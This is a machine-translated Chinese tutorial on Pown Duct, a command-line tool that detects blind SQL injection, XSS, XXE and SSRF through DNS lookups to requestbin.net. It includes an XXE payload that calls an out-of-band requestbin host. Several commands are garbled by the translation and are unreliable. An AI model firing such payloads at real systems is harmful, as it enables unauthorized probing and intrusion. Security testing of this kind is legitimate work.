

# Pown Duct:发现盲注入攻击的重要工具

> 原文：<https://kalilinuxtutorials.com/pown-duct-blind-injection-attacks/>

**Pown Duct** 是利用 DNS 侧信道发现盲注入攻击的必要工具。这个工具是 secapps.com 开源项目[的一部分。](https://secapps.com/)

**注意:**该工具正在利用【http://requestbin.net】的[服务。未来的版本将使用专用的、定制的基础设施。](http://requestbin.net/)

**快速入门**

该工具旨在作为 [Pown.js](https://github.com/pownjs/pown) 的一部分使用，但也可以作为独立工具单独调用。

照常首先安装 Pown:

**$ npm install -g pown@latest**

直接从 Pown 调用:

**$动力管道**

否则，从项目的根目录本地安装此模块:

**$ NPM install @ pown/duct–保存**

完成后，调用 pown cli:

**$。/node_modules/。料仓/动力管道**

您还可以使用全局 pown 在本地调用该工具:

**$ POWN_ROOT=。动力导管**

**也可阅读-[Regipy:一个独立于操作系统的 Python 库，用于解析离线注册表配置单元](https://kalilinuxtutorials.com/regipy-python-library-registry-hives/)**

**用法**

**pown duct

Side-channel attack enabler

命令:
pown duct DNS DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】**

**动力管道 DNS**

**pown duct DNS

DNS ducting

选项:
–版本显示版本号【布尔】
–帮助显示帮助【布尔】
–通道还原通道【字符串】
–输出输出格式【字符串】【选择:“字符串”、“hexdump”、“json”】【默认:“字符串”]**

**教程**

有些情况下，我们需要执行 sql 注入、XSS、XXE 或 SSRF 等攻击，但目标应用程序没有提供任何易受攻击的迹象。确定是否存在漏洞的一种方法是尝试注入有效的攻击媒介，迫使 DNS 解析器请求受控域。如果解析成功，攻击将被视为成功。

**注意**:您可能熟悉 Burp Collaborator，它为客户提供类似的服务。

首先，我们需要一个一次性的 dns 名称来解析:

**$ pown 管道域名系统**


使用提供的 DNS，组成您的有效负载。例如，如果存在 XXE 漏洞，以下内容可能会触发 DNS 解析。

```
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

如果攻击成功，我们会在终端中得到一条消息。

[**Download**](https://github.com/pownjs/pown-duct)